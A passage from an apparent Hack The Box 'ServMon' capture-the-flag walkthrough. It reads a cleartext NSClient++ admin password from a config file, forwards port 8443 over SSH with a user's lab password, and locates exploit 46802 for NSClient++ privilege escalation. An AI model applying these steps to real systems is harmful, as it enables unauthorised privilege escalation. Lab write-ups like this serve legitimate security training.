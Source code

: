 check `boot.ini` and `nsclient.ini` file:

```
nadine@SERVMON C:\Program Files\NSClient++>type boot.ini
[settings]
1 = ini://${shared-path}/nsclient.ini

nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

```

##### port forwarding (optional)

Note port 8443 was NSClient portal, and we can find password of it.  And allowed hosts was 127.0.0.1 which means the portal only was accessed by vitcim side. That means we need do port forwarding.

```bash
ssh Nadine@10.129.227.77 -L 8443:127.0.0.1:8443
L1k3B1gBut7s@W0rk
```

##### PrivEsc exploit

Let's search this platform's exploit:

```bash
searchsploit NSClient
searchsploit -x 46802
searchsploit -m 46802
```

And check privilege escalation content:

```

┌──(kali㉿kali)-[~/Desktop/Hackthebox/ServMon]
└─$ cat 46802.txt                                              
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

```